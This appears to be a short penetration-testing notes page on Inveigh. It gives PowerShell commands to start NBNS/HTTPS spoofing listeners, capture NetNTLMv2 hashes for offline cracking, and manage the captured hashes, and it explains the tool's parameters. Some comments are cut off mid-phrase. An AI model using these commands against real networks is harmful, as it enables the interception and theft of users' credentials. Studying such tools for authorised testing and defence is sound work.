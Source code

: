 Inveigh is a very useful tool for intercepting and spoofing requests for domain resources. It requests authentication for network access and records the NetNTLMv2 hashes to be cracked offline with [[Hashcat]].

```powershell
Import-Module Inveigh.ps1 # Imports the 
Invoke-Inveigh -NBNS -HTTPS -IP <Local IP> -ConsoleOutput # Default listeners
Get-Inveigh # View all captured hashes
Clear-Inveigh # Clear all captured hashes
Watch-Inveigh # View hashes in real-time as they are captured 
Stop-Inveigh # Stop listening
# The hashes 
```

```powershell
-ConsoleOutput : Enable/Disable real time console output. If using this option through a shell, test to ensure that it doesn’t hang the shell. Medium and Low can be used to reduce output.
-NBNS : Enable/Disable NBNS spoofer.
-HTTPS : Enable/Disable HTTPS challenge/response capture. Warning, a cert will be installed in the local store. If the script does not exit gracefully, manually remove the certificate. This feature requires local administrator access.
-Proxy : Enable/Disable proxy server authentication captures.
-IP : Local IP address for listening and packet sniffing. This IP address will also be used for LLMNR/mDNS/NBNS spoofing if the SpooferIP parameter is not set.
```
